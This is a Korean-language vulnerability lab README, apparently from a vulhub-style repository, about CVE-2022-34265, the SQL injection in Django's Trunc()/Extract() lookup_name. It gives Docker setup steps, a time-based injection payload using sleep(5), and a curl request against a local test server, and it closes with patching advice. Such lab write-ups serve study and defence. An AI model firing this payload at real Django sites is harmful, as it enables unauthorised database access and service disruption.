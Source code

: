 # CVE-2022-34265

> [장정안\_5308(jeongahn)](https://github.com/jeongahn)

## 요약

Django version이 3.2에서 3.2.14 사이와 4.0에서 4.0.6 사이에 문제가 발견되었다.
CVE-2022-34265은 Django ORM의 데이터베이스 쿼리를 통한 취약점이다. 이 취약점은 사용자로부터의 입력을 쿼리 필터링에 직접 사용할 때 발생한다. 이러한 사용자 입력은 보안을 위협할 수 있는 SQL 삽입 공격을 유발할 수 있다.
즉, 신뢰할 수 없는 데이터가 kind/lookup_name 값으로 사용되면 Trun() 및 Extract() 데이터베이스 함수가 SQL 주입 대상이 된다.

## 환경 구성 및 실행

**MAC m1에서 테스팅 환경 구축했습니다.**

- `git clone https://github.com/jeongahn/kr-vulhub/Django_Sql_Injection/CVE-2022-34265` 실행
- `cd CVE-2022-34265`
- `make up`으로 실행해 테스트 환경을 실행할 수 있다.

#### 삭제 시

- `make down`

## 페이로드

- `YEAR FROM start_time)) ; select sleep(5)--`

```
curl "http://127.0.0.1:8000/extract/?lookup_name=YEAR%20FROM%20start_time))%20%3Bselect%20sleep(5)--"
```

#### Payload:

- `YEAR FROM start_time)) ;select sleep(5)--`
- 이 쿼리는 start_time 필드의 연도를 추출하는 것처럼 보이며, 그 뒤에 ;를 사용하여 새로운 쿼리를 시작한다. 그리고 select sleep(5)를 사용하여 5초간의 딜레이를 발생시킨다.
- 이를 통해 공격자는 서비스의 응답 시간을 지연시켜 서비스의 가용성을 저하시킬 수 있다.

## 결과

![alt text](image.png)
5초 뒤에 응답이 오는 것을 확인

## 정리

이 취약점은 이제 Injection으로 서비스 응답 시간을 지연시킬 수 있고, 데이터베이스의 문서를 조작하는등의 공격이 가능한 취약점이며 사용자 입력을 검증하고 파라미터화된 쿼리를 사용해 패치를 하는 것이 중요하다.
